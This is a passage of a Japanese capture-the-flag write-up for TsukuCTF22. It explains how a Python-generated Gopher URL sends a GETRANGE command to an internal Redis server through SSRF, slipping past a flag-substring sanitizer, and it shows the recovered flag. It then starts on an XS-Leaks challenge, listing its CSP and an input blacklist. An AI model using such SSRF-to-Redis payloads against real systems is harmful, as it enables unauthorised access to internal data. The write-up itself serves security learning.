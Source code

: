```python
blacklist_in_response = ['TsukuCTF22']

def response_sanitizer(body: str) -> str:
    if any([scheme in body for scheme in blacklist_in_response]):
        return "SANITIZED: a sensitive data is included!"
    return body
```
はフラグの部分文字列がいい感じに出力されるようなコマンドをRedisサーバに送りつければbypassできる。今回は`GETRANGE`を使った。

gopherペイロードの生成:
```python
import urllib.parse

BASE_URL = "Gopher://redis:6379"

# # 最初にすべてのキーを入手する
# payload = """
# KEYS *
# QUIT
# """.lstrip()

key = "ffde9d42-39d4-448c-b7a2-fb45fee6e9c7"
payload = f"""
GETRANGE {key} 57 -1
QUIT
""".lstrip()

url = f"{BASE_URL}/x{urllib.parse.quote(payload)}"
print(url)
```

```
Gopher://redis:6379/xGETRANGE%20ffde9d42-39d4-448c-b7a2-fb45fee6e9c7%2057%20-1%0AQUIT%0A
```
を投げると
```
$33 sukuCTF22{ur1_scheme_1s_u5efu1}"} +OK
```
でフラグが手に入る。

`TsukuCTF22{ur1_scheme_1s_u5efu1}`

## [Web] leaks4b

- 問題名からもソースコードからもXS-Leaksっぽい問題
- フラグはbotのクッキー
- フラグ形式: `TsukuCTF22{[a-z]{7}}`
- CSP: `<meta http-equiv="Content-Security-Policy" content="script-src 'nonce-{nonce}'; base-uri 'none'; connect-src 'none'; font-src 'none'; form-action 'none'; frame-src 'none'; object-src 'none'; require-trusted-types-for 'script'; worker-src 'none';">`
    - かなり厳しい。XSSは無理
- 自明なContent Injectionができるが `["stylesheet", "import", "image", "style", "flag", "link", "img", "\"", "$", "'", "(", ")", "*", "+", ":", ";", "?", "@", "[", "\\", "]", "^", "{", "}"]`のブラックリストによるバリデーションがある
    - ソースコードのコメントにあるようにCSS InjectionやReDoSは無理そう
